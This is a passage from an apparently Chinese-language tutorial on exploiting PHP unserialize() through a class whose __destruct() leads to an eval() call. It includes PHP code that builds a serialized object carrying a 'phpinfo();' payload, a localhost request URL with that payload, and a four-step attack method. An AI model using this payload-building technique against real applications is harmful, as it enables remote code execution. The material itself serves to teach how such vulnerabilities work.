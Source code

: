 unserialize() 函数的参数我们是可以控制的

能通过这个接口反序列化任何类的对象

当前这三个类,后面两个类反序列化以后对我们没有任何意义，因为我们根本没法调用其中的方法

第一个类就不一样,有一个魔法函数 __destruct(),在对象销毁的时候自动调用,就决定反序列化这个类的对象

destruct() 里面只用到了一个属性 test 

再观察一下,Evil 这个类中发现他的 action() 函数调用了 eval()

将 K0rz3n 这个类中的 test 属性篡改为 Evil 这个类的对象,篡改 Evil 对象的 test2 属性，将其改成我们的 Payload

生成 payload 代码：

```php
<?php
class K0rz3n {
    private $test;
    function __construct() {
        $this->test = new Evil;
    }
}


class Evil {

    var $test2 = "phpinfo();";

}

$K0rz3n = new K0rz3n;
$data = serialize($K0rz3n);
file_put_contents("seria.txt", $data);
```

去除了一切与我们要篡改的属性无关的内容，对其进行序列化操作，然后将序列化的结果复制出来，向刚刚的代码发起请求比如

`http://127.0.0.1/php_unserialize/K0rz3n.php?test=O:6:"K0rz3n":1:{s:12:"K0rz3ntest";O:4:"Evil":1:{s:5:"test2";s:10:"phpinfo();";}}`

## 总结
(1) 寻找 unserialize() 函数的参数是否有我们的可控点

(2) 寻找我们的反序列化的目标，重点寻找存在 wakeup() 或 destruct() 魔法函数的类

(3) 一层一层地研究该类在魔法方法中使用的属性和属性调用的方法，看看是否有可控的属性能实现在当前调用的过程中触发的

(4) 找到我们要控制的属性了以后我们就将要用到的代码部分复制下来，然后构造序列化，发起攻击